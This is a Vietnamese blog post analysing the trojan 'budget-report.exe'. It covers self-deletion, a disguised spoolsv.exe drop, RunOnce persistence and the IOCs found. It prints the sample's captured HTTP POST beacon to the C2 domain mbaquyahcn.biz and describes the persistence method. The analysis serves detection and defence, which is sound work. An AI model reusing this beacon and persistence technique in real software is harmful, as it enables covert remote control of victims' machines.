 ```yaml
---
title: Budget-report.exe
date: 2025-6-25 08:30:00 +0700
categories: [Malware Analysis, Dynamic]
tags: [persistence, c2, trojan, backdoor]
description: Phân tích hành vi runtime của mẫu mã độc budget-report.exe cơ chế persistence, kết nối C2, và đánh giá khả năng là backdoor/beacon trojan.
---
```


## 🎯 Mục tiêu

- Theo dõi hành vi runtime của mẫu `budget-report.exe`
- Xác định mục tiêu, kỹ thuật và đánh giá khả năng gây hại
- Ghi nhận các IOC quan trọng (Indicators of Compromise)

---

## 🧊 1. Phân tích tĩnh

**Tên file**: `budget-report.exe`

**MD5**: `d7cc6c987c68a88defdab3a59070777e`

### 🔹 VirusTotal
![VirusTotal scan](/resources/Budget-report/Pasted image 20251001080419.png)

### 🔹 EXEinfoPE
- 32-bit, GUI, không bị pack

![EXEinfoPE](/resources/Budget-report/Pasted image 20251001073557.png)

### 🔹 PeStudio

#### 📌 Indicators
![PeStudio Indicators](/resources/Budget-report/Pasted image 20251001073819.png)

- Sử dụng thư viện liên quan đến **Internet** và **Sockets**
- Có nhiều hàm import (≈54), khá nhiều so với một GUI đơn giản

#### 📌 Strings
![PeStudio Strings](/resources/Budget-report/Pasted image 20251001074032.png)

- Nhiều chuỗi khả nghi: `GetUserName`, `InternetOpen`, `CreateKey`, tên file `spoolsv.exe`, chuỗi liên quan socket/process/registry...

#### 📌 IAT – Bảng hàm nhập
![IAT view](/resources/Budget-report/Pasted image 20251001074327.png)

- Nhiều API liên quan mạng, registry, process → gợi ý hành vi persistence + network.

---

## ⚙️ 2. Phân tích động

### 🔸 1. Xóa chính nó sau khi chạy

Ngay khi khởi chạy, file gốc `budget-report.exe` bị xóa khỏi ổ đĩa (self-delete).

---

### 🔸 2. Kết nối mạng (Fakenet)

Mẫu gửi HTTP POST về một địa chỉ C2:

```http
POST /uan9Bau3LJ9/ HTTP/1.1
Host: mbaquyahcn.biz:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.2...)

Body:
a=&b=&c=%67%61%78%79%79%76%76%76%73%74%47%71%71%6E%72%6F%6F%66%6C%6C%6A
````


✅ Payload `c=` sau khi decode ra chuỗi có vẻ ngẫu nhiên (`gaxyvvvstGqqnroofllj`) → có thể là ID hệ thống hoặc token định danh.

> Mẫu gửi lại gói này nhiều lần — có thể chờ phản hồi từ máy chủ C2 để nhận lệnh tiếp theo (beacon behaviour).

---

### 🔸 3. Theo dõi registry bằng Regshot

![Regshot diff](/resources/Budget-report/Pasted image 20251001081102.png)

Một số key đáng chú ý:

```reg
HKCU\SOFTWARE\12648430                   → chứa chuỗi hash định danh
HKCU\...\RunOnce\*12648430               → khởi động spoolsv.exe khi máy bật lại
HKCU\...\AppData\Roaming\12648430\spoolsv.exe → file copy chính mã độc
```

📁 **Hành vi chính:**

* Xóa file gốc `budget-report.exe`
* Tạo `spoolsv.exe` tại `AppData\Roaming\12648430` (drop & copy)
* Ghi vào registry `RunOnce` để **tự động khởi động lại sau reboot**

---

### 🔸 4. ProcMon theo dõi chi tiết

![ProcMon timeline](/resources/Budget-report/budget-report.png)

Timeline ProcMon xác nhận chuỗi hành động:

* Đọc user profile
* Tạo thư mục trong AppData
* Copy chính nó thành `spoolsv.exe`
* Ghi registry RunOnce
* Gửi HTTP request ra ngoài (beacon)

---

## 🚨 Kết luận

### ✅ Tóm tắt hành vi

* **Tạo persistence** qua RunOnce → đảm bảo chạy lại sau khởi động
* **Liên lạc với C2**: `mbaquyahcn.biz` trên cổng 80 (POST `/uan9Bau3LJ9/`)
* **Xóa file gốc** và **drop file mới** (`spoolsv.exe`) để khó bị phát hiện

### 🎯 Mục tiêu & Ý nghĩa

| Hành vi            | Mục tiêu                              |
| ------------------ | ------------------------------------- |
| Registry RunOnce   | Giữ sự hiện diện lâu dài              |
| HTTP POST C2       | Báo về máy & chờ chỉ thị từ C2        |
| Xóa file gốc       | Tránh bị phân tích                    |
| Drop `spoolsv.exe` | Ngụy trang dưới tên tiến trình hợp lệ |

### 🔐 Khả năng gây hại

* Khả năng cao là **backdoor đơn giản** / **beacon trojan**
* Gửi định danh ban đầu về C2 để chờ lệnh — hạ tầng đã sẵn sàng cho điều khiển từ xa
* Chưa thấy hành vi rõ ràng về đánh cắp dữ liệu hay phá hoại, nhưng khả năng mở rộng hành vi tồn tại nếu C2 trả lệnh

---

## 📌 IOC (Indicators of Compromise)

| Loại         | Giá trị                                                  |
| ------------ | -------------------------------------------------------- |
| File hash    | `d7cc6c987c68a88defdab3a59070777e`                       |
| C2 domain    | `mbaquyahcn.biz`                                         |
| C2 path      | `/uan9Bau3LJ9/`                                          |
| File drop    | `C:\Users\<user>\AppData\Roaming\12648430\spoolsv.exe`   |
| Registry key | `HKCU\...\RunOnce\*12648430`                             |
| UA giả       | `Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.2;...)` |

---

> 🛡️ **Khuyến nghị:**
>
> * Chặn domain `mbaquyahcn.biz` ở proxy/IDS/Firewall.
> * Quét & cách ly các file có đường dẫn giống `AppData\Roaming\12648430\spoolsv.exe`.
> * Giám sát registry Run/RunOnce cho entry lạ dạng `*12648430`.
> * Nếu phát hiện, thu thập memory dump & network capture để phân tích sâu (để xác định lệnh tiếp theo từ C2).

---
